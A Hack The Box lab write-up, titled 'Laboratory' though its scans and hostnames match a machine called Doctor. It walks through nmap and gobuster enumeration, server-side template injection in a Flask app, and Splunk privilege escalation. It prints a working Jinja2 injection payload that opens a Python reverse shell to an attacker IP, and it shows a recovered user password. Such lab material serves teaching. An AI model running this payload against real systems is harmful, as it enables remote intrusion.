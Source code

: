 ```yaml
---
title: "[HTB] Machine: Laboratory"
description: "[HTB] Machine: Laboratory"
date: 2023-07-05
menu:
  sidebar:
    name: "[HTB] Machine: Laboratory"
    identifier: htb-machine-laboratory
    parent: htb-machines-linux
    weight: 10
hero: images/laboratory.png
tags: ["HTB"]
---
```


# Laboratory
## Enumeration
- ```Nmap```
```
└─$ nmap -Pn -sC -sV 10.10.10.209 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 19:08 BST
Nmap scan report for 10.10.10.209 (10.10.10.209)
Host is up (0.11s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 594d4ec2d8cfda9da8c8d0fd99a84617 (RSA)
|   256 7ff3dcfb2dafcbff9934ace0f8001e47 (ECDSA)
|_  256 530e966b9ce9c1a170516c2dce7b43e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: splunkd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.13 seconds

```
- Web Server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.209 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --no-error -x php,txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.209
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/07/06 19:11:54 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.209/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.209/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.209/js/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.209/fonts/]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]

```

- We have `Splunk` on port `8089`

![](./images/2.png)

## Foothold
- We have an email `info@doctors.htb`
  - If we add `doctors.htb` to `/etc/hosts` file and visit it, we are redirected to `/login?next=%2F`
  - Which is served under `Werkzeug/1.0.1 Python/3.8.2`

![](./images/3.png)
![](./images/4.png)

- We can create an account and check what's inside
  - We can create posts
  - If we check the source, we have `/archive`

![](./images/5.png)
![](./images/6.png)
![](./images/7.png)
![](./images/8.png)
![](./images/9.png)

- I tested for `sqli` but found nothing
  - We might have [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), so let's test it
  - I started with basic payloads from the post
  - There was nothing on the `post` page, but if we visit `/archive` page we see the results

![](./images/10.png)
![](./images/11.png)
![](./images/12.png)

- Let's get reverse shell
  - I used payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)
    - `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.16.12\",6666)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`
  - Launch a listener, create a new post and visit the `/archive`

![](./images/13.png)
![](./images/14.png)
![](./images/15.png)

## User
- Let's run `linpeas`
  - We find an interesting entry in logs `POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password`
  - It happens to be `shaun`'s password
  
![](./images/16.png)
![](./images/17.png)


## Root
- `linpeas` found nothing
  - Then I started enumerating `splunk`
    - `searchsploit` has nothing 
  - Found an interesting repo [SplunkWhisperer2s](https://github.com/cnotin/SplunkWhisperer2)
  - Let's test it

![](./images/18.png)

- Well, it works
  - Let's get our root

![](./images/18.png)